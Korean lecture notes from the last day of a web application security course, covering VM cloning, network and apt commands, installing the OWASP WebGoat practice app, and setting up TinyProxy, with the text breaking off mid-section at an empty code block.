--- 
title: "📝 웹 애플리케이션 보안 강의 노트 (최종일)"
date: 2025-12-29
categories:
  - App-Security
tags:
  - App-Security
  - SK_Rookies
---

# 📝 웹 애플리케이션 보안 강의 노트 (최종일)

**작성일**: 2025년 12월 29일
**강의 주제**: 웹 애플리케이션 보안 (Web Application Security) - 7일차 (최종일)
**강사**: [강사명]
**과정**: IT 보안 전문가 양성과정

---

## 📌 Section 1: 강의 개요 및 지난 주 복습

### 🎯 학습 목표

이번 섹션에서는 다음 내용을 학습합니다:

- [ ] 웹 애플리케이션 보안 전체 과정 복습
- [ ] VM 환경 설정 및 클론 기법 이해
- [ ] 리눅스 패키지 관리 시스템 (`apt`, `apt-get`) 숙지
- [ ] WebGoat 취약점 실습 환경 구축
- [ ] TinyProxy를 이용한 우회 접속 기법
- [ ] MySQL 원격 접속 및 SQL 기본 명령어
- [ ] SQL Injection (Union Injection, Command Injection) 복습
- [ ] 취약한 JSP 게시판 구조 이해
- [ ] Prepared Statement 보안 메커니즘 학습

---

## 1. 강의 시작 및 공지사항

### 📅 오늘의 일정

**강의 일정:**
- **시작 시간**: 9시 20분
- **종료 예정**: 5시 (이후 2차 사업평가)
- **평가 시간**: 5시 10분부터 진행

**중요 공지:**
- 오늘은 웹 애플리케이션 보안 과정의 **마지막 날**입니다
- 4시 55분까지 모두 착석하여 캠 세팅 완료
- 노트북 캠이 작동하지 않는 경우 모바일로 Zep 접속 후 캠 켜기

**미니 프로젝트 관련:**
- 내일부터 미니 프로젝트 시작 예정
- 오프라인 참여 희망 조는 오후 3시까지 연락
- 신청이 많을 경우 추첨으로 1~3개 조 선정

---

### 🏫 웹 애플리케이션 보안 과정 개요

#### 과정의 특징

💡 **중요!**: 이 과정은 **한 학기 분량의 내용을 7일만에 압축**한 집중 과정입니다.

**교재 구성:**
- 출판사: 한빛출판사
- 총 14장 구성 (한 학기 = 15주 - 중간/기말고사 = 14주 분량)
- 1장~7장: **기술적 내용** (실습 중심)
- 8장~14장: **정책적 내용** (개념 이해 중심)

**학습 전략:**



**반복 학습의 중요성:**

강사님께서 강조하신 점:

> 📌 **노트**: "제 수업은 항상 최소 3번 이상 반복합니다. 수업 시간만으로는 부족하며, 여러분이 따로 시간을 내서 익숙해지는 연습이 필요합니다."

**학습 속도에 대한 조언:**

많은 수강생이 "진도가 빠르다"고 느끼는 이유:
1. **익숙하지 않음**: 새로운 명령어와 환경에 대한 어색함
2. **기초 부족**: 리눅스 기본 명령어 숙련도 부족
3. **실습 시간 부족**: 수업 외 개인 실습 시간 미확보

⚠️ **주의**: 리눅스 사용이 어렵다면 **기본이 부족한 것**이므로 추가 학습이 필요합니다.

---

### 🔄 IT 분야 기본 스킬의 중요성

#### 운영체제 (OS) 사용 능력

💡 **중요!**: **운영체제 사용은 IT 업무의 가장 기본**입니다.

**IT 업무 계층 구조:**



**왜 기본이 중요한가?**

강사님의 조언:

> "IT 분야에서 일하려면, 심지어 **기술 영업을 하는 사람까지도** 프로그램을 어느 정도 할 줄 알아야 합니다. 그렇지 않으면 직업 수명이 굉장히 짧아집니다."

**신입 vs 경력직 업무:**

| 구분 | 신입 | 경력 (3년 이상) |
|------|------|----------------|
| 업무 성격 | 단순 반복 작업 | 고도화된 복잡한 업무 |
| 요구 기술 | 기본 명령어 숙지 | 시스템 전반 이해 |
| 코드 이해 | 선택 사항 | **필수** |
| 자동화 | 불필요 | **필수** |

⚠️ **주의**: 코드를 이해하지 못하면 **점점 배제**됩니다. 개발자가 아니더라도 **코드를 읽고 필요한 부분을 채워넣을 수 있는 수준**은 반드시 필요합니다.

---

## 2. 지난 주 복습: VM 환경 설정

### 📟 VM 클론 (Clone) 기법

#### 클론이란?

**클론 (Clone)**: 기존 가상 머신을 복제하여 동일한 환경을 빠르게 생성하는 기법

**사용 시나리오:**
- 동일한 테스트 환경을 여러 개 생성할 때
- 백업 용도로 현재 상태를 저장할 때
- 다양한 실험을 위해 원본을 보존하면서 작업할 때

**클라우드 환경에서의 유사 개념:**



#### VM 클론 실습

**사전 준비:**
- VMware Workstation / VMware Fusion 설치
- Ubuntu Server 또는 Desktop 이미지 설치 완료
- 원본 VM이 정상 작동 상태

**클론 생성 단계:**



**Full Clone vs Linked Clone 비교:**

| 구분 | Full Clone | Linked Clone |
|:-:|:-:|:-:|
| **저장 공간** | 원본과 동일한 크기 | 원본보다 훨씬 작음 |
| **독립성** | 완전 독립 | 원본에 의존 |
| **속도** | 느림 (전체 복사) | 빠름 (참조만 생성) |
| **안정성** | 높음 | 원본 손상 시 문제 |
| **사용 권장** | 프로덕션 환경 | 테스트 환경 |

💡 **중요!**: 실무에서는 **Full Clone**을 사용하는 것이 안전합니다.

---

### 📟 `ifconfig` / `ip addr` - IP 주소 확인

클론 후 **반드시** IP 주소를 확인해야 합니다.

#### 명령어 개요

**목적**: 네트워크 인터페이스 정보 및 IP 주소 확인
**사용 시나리오**:
- VM 클론 후 새로 할당된 IP 확인
- 네트워크 연결 문제 진단
- 인터페이스 활성화 상태 확인

#### 기본 문법

```bash
# 방법 1: ifconfig (구식, 하지만 여전히 많이 사용)
$ ifconfig

# 방법 2: ip addr (최신 권장 방법)
$ ip addr
$ ip a  # 축약형
```

#### 실행 예제 1: ifconfig로 IP 확인

```bash
$ ifconfig
```

**예상 출력:**

```
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.186.131  netmask 255.255.255.0  broadcast 192.168.186.255
        inet6 fe80::20c:29ff:fe8a:c1b3  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:8a:c1:b3  txqueuelen 1000  (Ethernet)
        RX packets 1234  bytes 123456 (123.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 567  bytes 56789 (56.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 100  bytes 10000 (10.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 100  bytes 10000 (10.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

**출력 해석:**

1. **ens33**: 네트워크 인터페이스 이름 (Ethernet Network Slot 33)
   - 과거에는 `eth0`, `eth1` 형식이었으나, 최신 리눅스는 `ens33`, `enp0s3` 등으로 표기
2. **inet 192.168.186.131**: **IPv4 주소** (이 VM의 IP)
3. **netmask 255.255.255.0**: 서브넷 마스크 (클래스 C, /24)
4. **broadcast 192.168.186.255**: 브로드캐스트 주소
5. **ether 00:0c:29:8a:c1:b3**: MAC 주소 (물리적 네트워크 카드 주소)
6. **RX packets / TX packets**: 수신/송신 패킷 수
7. **lo**: Loopback 인터페이스 (127.0.0.1, 자기 자신)

💡 **중요!**: 클론 후 **IP 주소가 변경**되었는지 반드시 확인하세요. 같은 네트워크에서 IP 충돌이 발생할 수 있습니다.

#### 실행 예제 2: ip addr로 IP 확인 (최신 방법)

```bash
$ ip addr
```

**예상 출력:**

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:8a:c1:b3 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    inet 192.168.186.131/24 brd 192.168.186.255 scope global dynamic ens33
       valid_lft 86312sec preferred_lft 86312sec
    inet6 fe80::20c:29ff:fe8a:c1b3/64 scope link
       valid_lft forever preferred_lft forever
```

**출력 해석:**

- **inet 192.168.186.131/24**: IP 주소와 서브넷 마스크 (CIDR 표기법)
- **state UP**: 인터페이스 활성화 상태
- **dynamic**: DHCP로 자동 할당된 IP

#### 자주 발생하는 오류

**1. IP가 할당되지 않음**

```bash
$ ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether 00:0c:29:8a:c1:b3  txqueuelen 1000  (Ethernet)
        # inet 주소가 없음!
```

**원인**: DHCP 서버에서 IP를 받지 못함
**해결**:
```bash
# DHCP 클라이언트 재시작
$ sudo dhclient ens33

# 또는 네트워크 서비스 재시작
$ sudo systemctl restart networking

# Ubuntu 최신 버전 (netplan 사용 시)
$ sudo netplan apply
```

**2. 인터페이스가 비활성화됨**

```bash
$ ifconfig
lo: ...
# ens33이 보이지 않음!
```

**원인**: 네트워크 인터페이스가 비활성화 상태
**해결**:
```bash
# 인터페이스 활성화
$ sudo ifconfig ens33 up

# 또는 ip 명령어 사용
$ sudo ip link set ens33 up
```

---

## 3. 리눅스 패키지 관리 시스템

### 📟 `apt` / `apt-get` - 패키지 관리자

#### 명령어 개요

**목적**: Ubuntu/Debian 계열에서 소프트웨어 패키지 설치, 업데이트, 삭제 관리
**사용 시나리오**:
- 새로운 소프트웨어 설치
- 시스템 업데이트 및 보안 패치 적용
- 불필요한 패키지 제거

#### apt vs apt-get 비교

| 구분 | `apt` | `apt-get` |
|:-:|:-:|:-:|
| **출시 시기** | 2014년 (Ubuntu 14.04+) | 1998년 (Debian 2.1) |
| **사용자 친화성** | 높음 (진행 바, 색상) | 낮음 (텍스트만) |
| **기능** | 일반 사용자용 | 스크립트/자동화용 |
| **호환성** | apt-get 대체 가능 | 레거시 시스템 |

💡 **중요!**: **apt와 apt-get은 동일한 기능**을 수행합니다. 현대적인 사용을 위해 `apt` 사용을 권장합니다.

---

### 📟 `sudo apt update` - 패키지 목록 갱신

#### 명령어 개요

**목적**: 원격 저장소(Repository)에서 최신 패키지 정보를 다운로드
**사용 시나리오**:
- 시스템 처음 설치 후
- 새로운 패키지 설치 전
- 정기적인 시스템 유지보수 시

#### 기본 문법

```bash
$ sudo apt update
```

#### `update` vs `upgrade` 차이점



| 명령어 | 수행 작업 | 실제 변경 |
|:-:|:-:|:-:|
| `apt update` | 패키지 **정보**만 업데이트 | ❌ 시스템 변경 없음 |
| `apt upgrade` | 패키지 **실제 업그레이드** | ✅ 시스템 변경 발생 |

📌 **노트**: **update는 정보 수집, upgrade는 실제 적용**입니다. 반드시 `update` 후에 `upgrade`를 실행해야 합니다.

#### 실행 예제 1: 패키지 목록 갱신

```bash
$ sudo apt update
```

**예상 출력:**

```
Hit:1 http://kr.archive.ubuntu.com/ubuntu jammy InRelease
Get:2 http://kr.archive.ubuntu.com/ubuntu jammy-updates InRelease [128 kB]
Get:3 http://kr.archive.ubuntu.com/ubuntu jammy-backports InRelease [127 kB]
Get:4 http://kr.archive.ubuntu.com/ubuntu jammy-security InRelease [129 kB]
Get:5 http://kr.archive.ubuntu.com/ubuntu jammy-updates/main amd64 Packages [1,234 kB]
Get:6 http://kr.archive.ubuntu.com/ubuntu jammy-updates/universe amd64 Packages [987 kB]
Fetched 2,605 kB in 3s (868 kB/s)
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
15 packages can be upgraded. Run 'apt list --upgradable' to see them.
```

**출력 해석:**

1. **Hit:1**: 해당 저장소는 변경 사항 없음 (캐시 사용)
2. **Get:2-6**: 해당 저장소에서 새로운 정보 다운로드
3. **Fetched 2,605 kB**: 총 다운로드 크기
4. **15 packages can be upgraded**: 업그레이드 가능한 패키지 수

💡 **중요!**: `update` 후 **"X packages can be upgraded"** 메시지가 나오면, `apt upgrade`를 실행해야 합니다.

---

### 📟 `sudo apt upgrade` - 패키지 업그레이드

#### 명령어 개요

**목적**: 설치된 패키지를 최신 버전으로 실제 업그레이드
**사용 시나리오**:
- 보안 패치 적용
- 버그 수정 버전 설치
- 새로운 기능 추가

#### 기본 문법

```bash
$ sudo apt upgrade
```

#### 실행 예제 1: 패키지 업그레이드

```bash
$ sudo apt upgrade
```

**예상 출력:**

```
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
Calculating upgrade... Done
The following packages will be upgraded:
  curl libcurl4 libssl3 openssl ubuntu-minimal
5 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Need to get 2,345 kB of archives.
After this operation, 123 kB of additional disk space will be used.
Do you want to continue? [Y/n]
```

**사용자 입력 후:**

```bash
# Y 입력 후 Enter
Do you want to continue? [Y/n] Y
Get:1 http://kr.archive.ubuntu.com/ubuntu jammy-updates/main amd64 openssl amd64 3.0.2-0ubuntu1.15 [1,184 kB]
Get:2 http://kr.archive.ubuntu.com/ubuntu jammy-updates/main amd64 libssl3 amd64 3.0.2-0ubuntu1.15 [1,902 kB]
...
Fetched 2,345 kB in 2s (1,172 kB/s)
(Reading database ... 123456 files and directories currently installed.)
Preparing to unpack .../openssl_3.0.2-0ubuntu1.15_amd64.deb ...
Unpacking openssl (3.0.2-0ubuntu1.15) over (3.0.2-0ubuntu1.14) ...
Setting up openssl (3.0.2-0ubuntu1.15) ...
...
Processing triggers for man-db (2.10.2-1) ...
```

**출력 해석:**

- **5 upgraded**: 5개 패키지 업그레이드
- **0 newly installed**: 새로 설치되는 패키지 없음
- **0 to remove**: 제거되는 패키지 없음
- **Need to get 2,345 kB**: 다운로드 필요 용량

#### 자동 승인 옵션 (무인 설치)

스크립트나 자동화 환경에서는 사용자 입력 없이 진행:

```bash
$ sudo apt upgrade -y
```

**옵션 설명:**
- `-y`: 모든 질문에 자동으로 "Yes" 응답

---

### 📟 `sudo apt install` - 패키지 설치

#### 명령어 개요

**목적**: 새로운 소프트웨어 패키지 설치
**사용 시나리오**:
- 개발 도구 설치 (git, vim, curl)
- 서버 소프트웨어 설치 (nginx, mysql, docker)
- 보안 도구 설치 (nmap, wireshark)

#### 기본 문법

```bash
$ sudo apt install <패키지명>
$ sudo apt install <패키지1> <패키지2> <패키지3>  # 여러 개 동시 설치
```

#### 주요 옵션 설명

| 옵션 | 의미 | 사용 목적 | 예시 |
|:-:|:-:|:-:|:-:|
| `-y` | 자동 승인 | 무인 설치 스크립트 | `apt install -y curl` |
| `--no-install-recommends` | 권장 패키지 제외 | 최소 설치 | `apt install --no-install-recommends nginx` |
| `--fix-broken` | 의존성 문제 해결 | 설치 오류 수정 | `apt install --fix-broken` |
| `--reinstall` | 재설치 | 패키지 복구 | `apt install --reinstall curl` |

#### 실행 예제 1: wget 설치

```bash
$ sudo apt install wget
```

**예상 출력:**

```
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  wget
0 upgraded, 1 newly installed, 0 to remove and 0 not upgraded.
Need to get 367 kB of archives.
After this operation, 1,234 kB of additional disk space will be used.
Do you want to continue? [Y/n] Y
Get:1 http://kr.archive.ubuntu.com/ubuntu jammy/main amd64 wget amd64 1.21.2-2ubuntu1 [367 kB]
Fetched 367 kB in 1s (367 kB/s)
Selecting previously unselected package wget.
(Reading database ... 123456 files and directories currently installed.)
Preparing to unpack .../wget_1.21.2-2ubuntu1_amd64.deb ...
Unpacking wget (1.21.2-2ubuntu1) ...
Setting up wget (1.21.2-2ubuntu1) ...
Processing triggers for man-db (2.10.2-1) ...
```

**출력 해석:**

- **1 newly installed**: 새로 설치되는 패키지 1개
- **Need to get 367 kB**: 다운로드 용량
- **After this operation, 1,234 kB**: 설치 후 추가 디스크 사용량

#### 실행 예제 2: 여러 패키지 동시 설치

```bash
$ sudo apt install -y curl git vim
```

**사용 시나리오**: 개발 환경 초기 설정 시 필요한 도구들을 한 번에 설치

#### 실행 예제 3: Java JDK 설치 (강의에서 사용)

```bash
$ sudo apt install -y openjdk-11-jdk
```

**검증:**

```bash
$ java -version
openjdk version "11.0.20" 2023-07-18
OpenJDK Runtime Environment (build 11.0.20+8-post-Ubuntu-1ubuntu122.04)
OpenJDK 64-Bit Server VM (build 11.0.20+8-post-Ubuntu-1ubuntu122.04, mixed mode, sharing)
```

---

### 📟 `wget` - 웹에서 파일 다운로드

#### 명령어 개요

**목적**: 웹 서버에서 파일을 CLI 환경에서 다운로드
**사용 시나리오**:
- 소프트웨어 설치 파일 다운로드
- 백업 파일 복구
- Proxy를 통한 우회 접속

#### 기본 문법

```bash
$ wget [옵션] <URL>
```

#### 주요 옵션 설명

| 옵션 | 의미 | 사용 목적 | 예시 |
|:-:|:-:|:-:|:-:|
| `-O` | 출력 파일명 지정 | 다운로드 파일명 변경 | `wget -O file.zip https://example.com/download` |
| `-c` | 이어받기 | 중단된 다운로드 재개 | `wget -c https://example.com/large-file.iso` |
| `-b` | 백그라운드 실행 | 큰 파일 다운로드 | `wget -b https://example.com/huge-file.tar.gz` |
| `--no-check-certificate` | SSL 인증서 무시 | 자체 서명 인증서 | `wget --no-check-certificate https://...` |

#### 실행 예제 1: WebGoat JAR 파일 다운로드

```bash
$ wget https://github.com/WebGoat/WebGoat/releases/download/v2023.4/webgoat-2023.4.jar
```

**예상 출력:**

```
--2025-12-29 09:30:00--  https://github.com/WebGoat/WebGoat/releases/download/v2023.4/webgoat-2023.4.jar
Resolving github.com (github.com)... 20.200.245.247
Connecting to github.com (github.com)|20.200.245.247|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/... [following]
--2025-12-29 09:30:01--  https://objects.githubusercontent.com/...
Resolving objects.githubusercontent.com... 185.199.108.133
Connecting to objects.githubusercontent.com|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 89456789 (85M) [application/octet-stream]
Saving to: 'webgoat-2023.4.jar'

webgoat-2023.4.jar  100%[===================>]  85.34M  5.23MB/s    in 17s

2025-12-29 09:30:18 (5.00 MB/s) - 'webgoat-2023.4.jar' saved [89456789/89456789]
```

**출력 해석:**

- **302 Found**: 리다이렉션 (다른 URL로 이동)
- **200 OK**: 정상적으로 다운로드 시작
- **Length: 89456789 (85M)**: 파일 크기
- **5.23MB/s**: 다운로드 속도

#### 실행 예제 2: Proxy를 통한 다운로드 (우회 접속)

```bash
$ http_proxy=http://192.168.186.132:8080 wget http://example.com/file.zip
```

**또는 환경 변수 설정:**

```bash
$ export http_proxy=http://192.168.186.132:8080
$ export https_proxy=http://192.168.186.132:8080
$ wget https://example.com/file.zip
```

📌 **노트**: Proxy를 사용하면 **중간 서버를 경유**하므로, 접근 로그에는 Proxy 서버의 IP가 남습니다.

---

## 4. WebGoat 설치 및 구동

### 🎯 WebGoat란?

**WebGoat**: OWASP에서 제공하는 **의도적으로 취약하게 만든** 웹 애플리케이션
**목적**: 웹 애플리케이션 보안 취약점을 안전하게 학습



**WebGoat 대체 도구:**

| 도구 | 난이도 | 특징 |
|:-:|:-:|:-:|
| **WebGoat** | 중 | 영문, 설명 많음, 가이드 친절 |
| **bWAPP** | 하 | 다양한 취약점, 한글 지원 일부 |
| **Juice Shop** | 중 | 현대적 UI, 게임 형식 |
| **DVWA** | 하 | 간단한 구조, 초보자 추천 |

📌 **노트**: 교재에서는 WebGoat을 사용하지만, 다른 도구로 실습해도 무방합니다.

---

### 📟 WebGoat 구동 명령어

#### 실행 예제: WebGoat JAR 실행

```bash
$ java -jar webgoat-2023.4.jar --server.port=8080 --server.address=0.0.0.0
```

**옵션 설명:**

| 옵션 | 의미 | 설명 |
|:-:|:-:|:-:|
| `-jar` | JAR 파일 실행 | Java Archive 파일 실행 모드 |
| `--server.port=8080` | 포트 지정 | 8080 포트에서 웹 서버 구동 |
| `--server.address=0.0.0.0` | 모든 IP 허용 | 외부 접속 허용 (0.0.0.0 = 모든 인터페이스) |

**예상 출력:**

```
  _       __     __   _____             __
 | |     / /__  / /_ / ___/____  ____ _/ /_
 | | /| / / _ \/ __ \\__ \/ __ \/ __ `/ __/
 | |/ |/ /  __/ /_/ /__/ / /_/ / /_/ / /_
 |__/|__/\___/_.___/____/\____/\__,_/\__/

 :: WebGoat :: v2023.4
 :: Spring Boot :: v2.7.5

2025-12-29 09:40:00.123  INFO 12345 --- [main] o.o.webgoat.WebGoat : Starting WebGoat...
2025-12-29 09:40:02.456  INFO 12345 --- [main] o.s.b.w.embedded.tomcat.TomcatWebServer : Tomcat started on port(s): 8080 (http)
2025-12-29 09:40:02.789  INFO 12345 --- [main] o.o.webgoat.WebGoat : Started WebGoat in 2.666 seconds
```

**브라우저 접속:**

```
http://192.168.186.131:8080/WebGoat
```

**초기 계정 생성:**
- 최초 접속 시 회원가입 필요
- 아무 계정/비밀번호로 생성 가능 (로컬 테스트 환경)

---

### 🔄 WebGoat 문제 풀이 권장 사항

📌 **노트**: 강의에서 다루지 않은 WebGoat 문제들을 개인적으로 풀어보는 것을 강력히 권장합니다.

**학습 효과:**
1. **실전 감각** 향상
2. **다양한 공격 기법** 습득
3. **보안 취약점 패턴** 이해

**주의사항:**
- WebGoat은 **영문**으로 제공되며, 설명이 장황할 수 있음
- 일부 문제는 **힌트 없이** 진행해야 하는 경우 있음
- 시간이 걸리더라도 **직접 해결**하는 것이 중요

---

## 5. TinyProxy 설치 및 우회 접속

### 🎯 Proxy 서버란?

**Proxy 서버**: 클라이언트와 서버 사이에서 **중계 역할**을 하는 서버

#### Proxy 서버의 동작 원리



#### Proxy 사용 목적

| 목적 | 설명 | 예시 |
|:-:|:-:|:-:|
| **익명성 보장** | 실제 IP 숨김 | 해커가 신분 은닉 |
| **우회 접속** | 차단된 사이트 접속 | 중국에서 구글 접속 |
| **캐싱** | 자주 사용하는 데이터 저장 | 회사 내부 프록시 |
| **필터링** | 특정 사이트 차단 | 학교, 회사 필터링 |

🔐 **보안**: 해커는 Proxy를 여러 단계로 거쳐 **추적을 극도로 어렵게** 만듭니다.

---

### 📟 TinyProxy 설치 및 설정

#### 설치

```bash
$ sudo apt install -y tinyproxy
```

#### 설정 파일 수정

**설정 파일 위치**: `/etc/tinyproxy/tinyproxy.conf`

```bash
$ sudo vi /etc/tinyproxy/tinyproxy.conf
```

**수정 전:**

```conf
# Port to listen on
Port 8888

# Allow access only from localhost
Allow 127.0.0.1
```

**수정 후:**

```conf
# Port to listen on
Port 8080  # 변경 이유: 일반적으로 많이 사용하는 포트

# Allow access from specific network
Allow 192.168.186.0/24  # 변경 이유: 동일 네트워크 대역 모두 허용
```

**변경 사항 요약:**

| 설정 항목 | 수정 전 | 수정 후 | 이유 |
|:-:|:-:|:-:|:-:|
| `Port` | 8888 | 8080 | 일반적인 Proxy 포트 |
| `Allow` | 127.0.0.1 | 192.168.186.0/24 | 외부 접속 허용 |

#### 서비스 재시작

```bash
$ sudo systemctl restart tinyproxy
$ sudo systemctl status tinyproxy
```

**예상 출력:**

```
● tinyproxy.service - Tinyproxy lightweight HTTP Proxy
     Loaded: loaded (/lib/systemd/system/tinyproxy.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2025-12-29 09:50:00 KST; 5s ago
    Process: 12345 ExecStart=/usr/bin/tinyproxy -c /etc/tinyproxy/tinyproxy.conf (code=exited, status=0/SUCCESS)
   Main PID: 12346 (tinyproxy)
      Tasks: 1 (limit: 4624)
     Memory: 1.2M
        CPU: 15ms
     CGroup: /system.slice/tinyproxy.service
             └─12346 /usr/bin/tinyproxy -c /etc/tinyproxy/tinyproxy.conf

Dec 29 09:50:00 ubuntu systemd[1]: Started Tinyproxy lightweight HTTP Proxy.
```

✅ **Active: active (running)**: 서비스 정상 구동

---

### 📟 `wget`을 통한 Proxy 사용

#### 실행 예제: Proxy를 거친 wget

```bash
